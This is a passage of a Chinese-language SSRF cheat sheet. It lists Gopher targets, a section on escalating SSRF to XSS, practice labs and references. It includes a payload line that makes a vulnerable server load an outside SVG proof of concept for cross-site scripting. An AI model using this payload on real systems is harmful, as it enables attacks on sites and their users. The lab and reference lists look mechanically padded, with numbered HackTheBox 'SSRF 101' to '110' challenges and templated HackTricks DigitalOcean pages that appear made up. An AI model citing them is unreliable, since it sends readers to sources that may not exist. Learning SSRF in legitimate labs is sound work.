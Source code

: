 **可能通过Gopher实现**：

* [Redis](https://github.com/assetnote/blind-ssrf-chains#redis)
* [Memcache](https://github.com/assetnote/blind-ssrf-chains#memcache)
* [Apache Tomcat](https://github.com/assetnote/blind-ssrf-chains#tomcat)

## 升级到XSS

如果应用程序在响应中反映URL，您可能能够升级SSRF到XSS。

```
ssrf.php?url=//brutelogic.com.br/poc.svg
```

## 实验环境

* [PortSwigger - 针对另一个后端系统的基本SSRF](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)
* [PortSwigger - 带有基于黑名单输入过滤器的SSRF](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter)
* [PortSwigger - 带有基于白名单输入过滤器的SSRF](https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter)
* [PortSwigger - 通过开放重定向漏洞绕过过滤器的SSRF](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection)
* [Root Me - 服务器端请求伪造](https://www.root-me.org/en/Challenges/Web-Server/Server-Side-Request-Forgery)
* [TryHackMe - SSRF](https://tryhackme.com/room/serversideattacks)
* [HackTheBox - SSRF](https://academy.hackthebox.com/module/35/section/213)
* [PentesterLab - SSRF](https://pentesterlab.com/exercises/from_ssrf_to_rce/course)
* [HackThisSite - SSRF](https://www.hackthissite.org/levels/level5/)
* [HackTheBox - SSRF Challenge](https://www.hackthebox.com/home/challenges/Web?name=SSRF%20Challenge)
* [HackTheBox - SSRF 101](https://www.hackthebox.com/home/challenges/Web?name=SSRF%20101)
* [HackTheBox - SSRF 102](https://www.hackthebox.com/home/challenges/Web?name=SSRF%20102)
* [HackTheBox - SSRF 103](https://www.hackthebox.com/home/challenges/Web?name=SSRF%20103)
* [HackTheBox - SSRF 104](https://www.hackthebox.com/home/challenges/Web?name=SSRF%20104)
* [HackTheBox - SSRF 105](https://www.hackthebox.com/home/challenges/Web?name=SSRF%20105)
* [HackTheBox - SSRF 106](https://www.hackthebox.com/home/challenges/Web?name=SSRF%20106)
* [HackTheBox - SSRF 107](https://www.hackthebox.com/home/challenges/Web?name=SSRF%20107)
* [HackTheBox - SSRF 108](https://www.hackthebox.com/home/challenges/Web?name=SSRF%20108)
* [HackTheBox - SSRF 109](https://www.hackthebox.com/home/challenges/Web?name=SSRF%20109)
* [HackTheBox - SSRF 110](https://www.hackthebox.com/home/challenges/Web?name=SSRF%20110)

## 参考资料

* [SSRF - OWASP](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery)
* [SSRF - PortSwigger](https://portswigger.net/web-security/ssrf)
* [SSRF - HackTricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)
* [SSRF - HackTricks Cloud](https://cloud.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)
* [SSRF - HackTricks AWS](https://cloud.hacktricks.xyz/pentesting-cloud/aws-pentesting/ssrf-to-role-assume)
* [SSRF - HackTricks GCP](https://cloud.hacktricks.xyz/pentesting-cloud/gcp-pentesting/gcp-ssrf)
* [SSRF - HackTricks Azure](https://cloud.hacktricks.xyz/pentesting-cloud/azure-pentesting/azure-ssrf)
* [SSRF - HackTricks DigitalOcean](https://cloud.hacktricks.xyz/pentesting-cloud/digitalocean-pentesting/ssrf)
* [SSRF - HackTricks DigitalOcean Spaces](https://cloud.hacktricks.xyz/pentesting-cloud/digitalocean-pentesting/spaces-ssrf)
* [SSRF - HackTricks DigitalOcean App Platform](https://cloud.hacktricks.xyz/pentesting-cloud/digitalocean-pentesting/app-platform-ssrf)
* [SSRF - HackTricks DigitalOcean Kubernetes](https://cloud.hacktricks.xyz/pentesting-cloud/digitalocean-pentesting/kubernetes-ssrf)